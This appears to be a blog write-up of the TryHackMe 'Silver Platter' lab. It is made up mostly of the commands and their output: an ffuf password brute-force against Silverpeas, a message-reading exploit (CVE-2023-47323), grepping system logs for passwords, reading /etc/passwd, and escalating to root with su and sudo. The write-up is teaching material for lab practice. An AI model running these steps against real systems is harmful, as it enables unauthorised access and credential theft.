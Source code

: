 ```yaml
---
title: "TryHackMe: Silver Platter"
author: jaxafed
categories: [TryHackMe]
tags: [web, brute-force, ffuf, idor, ssh, adm, log]
render_with_liquid: false
img_path: /images/tryhackme_silver_platter/
image:
  path: room_image.webp
---
```


**Silver Platter** was a simple room where we discovered a **Silverpeas** installation along with a username. We brute-forced the user's password using a custom wordlist to gain access to **Silverpeas**, and by exploiting a vulnerability in it that allows an authenticated user to read all the messages, we uncovered **SSH** credentials in one of them.

Using the discovered credentials to gain a shell, we found a password in the logs and used it to escalate to the **root** user, completing the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/silverplatter){: .center }

## Initial Enumeration

### Nmap Scan

We start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.191.243
Nmap scan report for 10.10.191.243
Host is up (0.089s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are three open ports:

- **22** (`SSH`)
- **80** (`HTTP`)
- **8080** (`HTTP`)

### Web 80

Checking `http://10.10.191.243/`, we find a static site.

![Web 80 Index](web_80_index.webp){: width="1200" height="600"}

### Web 8080

Checking `http://10.10.191.243:8080/`, we simply receive a `404` error.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600"}

## Shell as tim

### Discovering Silverpeas

In the **Contact** section on port **80** (`http://10.10.191.243/#contact`), we find an interesting message mentioning `Silverpeas` and a username: `scr1ptkiddy`.

![Web 80 Contact](web_80_contact.webp){: width="1200" height="600"}

`Silverpeas` typically runs on `:8080/silverpeas` and visiting `http://10.10.191.243:8080/silverpeas`, we find the login page for it.

![Web 8080 Silverpeas](web_8080_silverpeas.webp){: width="1200" height="600"}

### Brute-forcing the Credentials

The contact page provides a username, and the challenge room states a password policy that disallows breached passwords. So, instead of using a wordlist like `rockyou.txt`, we can generate a custom wordlist from the text in the web application on port **80** using `cewl`:

```console
$ cewl http://10.10.191.243/ > passwords.txt
```

Now, using this wordlist with `ffuf` to brute-force the password for the `scr1ptkiddy` user, we find it as `a[REDACTED]g`:

```console
$ ffuf -u 'http://10.10.191.243:8080/silverpeas/AuthenticationServlet' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'Login=scr1ptkiddy&Password=FUZZ&DomainId=0' -w passwords.txt -r -mc all -t 100 -fs 8282
...
a[REDACTED]g              [Status: 200, Size: 548, Words: 64, Lines: 24, Duration: 2399ms]
```
{: .wrap }

### Reading Messages

Using the discovered credentials, we successfully log in as `scr1ptkiddy` to **Silverpeas**.

![Web 8080 Silverpeas Dashboard](web_8080_silverpeas_dashboard.webp){: width="1200" height="600"}

Searching for vulnerabilities in **Silverpeas**, we find [**CVE-2023-47323**](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323), which allows reading all messages via the `http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID]` endpoint.

Exploiting this vulnerability to read the messages, when we read the message with ID `6` (`http://10.10.191.243:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`), we find the **SSH** credentials for the `tim` user.

![Web 8080 Silverpeas Messages](web_8080_silverpeas_messages.webp){: width="1200" height="600"}

Using these credentials, we can gain a shell and read the user flag at `/home/tim/user.txt`:

```console
$ ssh tim@10.10.191.243
...
tim@silver-platter:~$ wc -c user.txt
38 user.txt
```

## Shell as root

### Finding the Password

Checking the group memberships for the `tim` user, we see that the user belongs to the `adm` group:

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

As a member of the `adm` group, we can read most logs on the machine and searching the logs for passwords, we find one in `auth.log` for the **Silverpeas** database:

```console
tim@silver-platter:~$ grep -Ri 'password' /var/log 2>/dev/null
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Z[REDACTED]3/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```
{: .wrap }

Checking the `/etc/passwd` file, we see that, apart from the `tim` user, there is also the `tyler` user.

```console
tim@silver-platter:~$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
tyler:x:1000:1000:root:/home/tyler:/bin/bash
tim:x:1001:1001::/home/tim:/bin/bash
```

Testing the password we discovered for the `tyler` user, we successfully switch users:

```console
tim@silver-platter:~$ su - tyler
Password:
tyler@silver-platter:~$ id
uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

Checking `sudo` privileges for `tyler`, we see full access:

```console
tyler@silver-platter:~$ sudo -l
[sudo] password for tyler:
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```

With this, we can use `sudo` to escalate to the `root` user and read the root flag at `/root/root.txt` to complete the room.

```console
tyler@silver-platter:~$ sudo su -
root@silver-platter:~# wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
